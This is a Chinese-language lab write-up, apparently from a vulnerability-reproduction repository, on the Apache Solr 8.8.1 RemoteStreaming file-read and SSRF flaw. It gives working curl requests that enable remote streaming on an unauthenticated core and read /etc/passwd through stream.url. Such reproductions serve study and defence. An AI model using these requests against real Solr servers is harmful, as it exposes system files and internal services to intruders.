 # Apache Solr RemoteStreaming 文件读取与SSRF漏洞

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 漏洞环境

执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![](1.png)

发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)
